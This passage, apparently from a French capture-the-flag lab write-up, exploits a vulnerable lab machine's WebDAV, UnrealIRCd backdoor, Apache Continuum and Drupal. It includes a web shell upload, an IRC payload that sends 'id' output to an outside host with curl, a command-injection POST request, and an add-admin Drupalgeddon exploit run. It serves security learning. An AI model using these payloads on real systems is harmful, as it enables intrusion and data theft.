 Bien vu ! Le serveur indique que les méthodes DAV sont autorisées sur ce dossier. On peut uploader un shell avec cadaver :

```console
cadaver http://192.168.1.8/uploads/
dav:/uploads/> put shell.php
Uploading shell.php to `/uploads/shell.php':
Progress: [=============================>] 100.0% of 31 bytes succeeded.
```

### UnreadIRCd

Comme pour `mod_copy`, cette version du logiciel est un classique des CTFs. Une backdoor y est présente et permet l'exécution de commandes.

Il existe un vieil exploit en Perl : [UnrealIRCd 3.2.8.1 - Remote Downloader/Execute - Linux remote Exploit](https://www.exploit-db.com/exploits/13853)

Pour tester, j'ai édité l'exploit et ajouté un payload qui exfiltre l'uid utilisé par le service :

```perl
my $payload6 = 'AB; curl http://192.168.1.47/`id`';
```

Et on obtient `uid=1121(boba_fett)`.

### Continuum (port 8080)

Comme on s'en doute, les services vulnérables ici ont tous leur équivalent sous la forme de modules Metasploit.

Voici celui pour Continuum : [Apache Continuum - Arbitrary Command Execution (Metasploit) - Linux remote Exploit](https://www.exploit-db.com/exploits/39945)

Comme on veut faire sans Metasploit, il va falloir réimplémenter ce qui est fait. Ici l'exploit est très simple, il suffit de soumettre une requête HTTP POST avec 3 paramètres :

```bash
curl http://192.168.1.8:8080/continuum/saveInstallation.action -X POST --data 'installation.name=idontgiveafuck&installation.type=jdk&installation.varValue=`touch /tmp/pwned`'
```

### Drupal

Le CMS est vulnérable à la populaire faille Drupalgeddon. Le module Metasploit a l'avantage de donner directement un shell, mais les autres exploits présents sur exploit-db ne font que des actions sur la base SQL.

Celui çi permet de créer un compte administrateur : [Drupal 7.0 < 7.31 - Drupalgeddon SQL Injection (Add Admin User) - PHP webapps Exploit](https://www.exploit-db.com/exploits/34992)

```console
$ python drupal.py -t http://192.168.1.8/drupal/ -u toto -p toto
/tmp/drupal.py:147: SyntaxWarning: invalid escape sequence '\ '
  banner = """

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
```
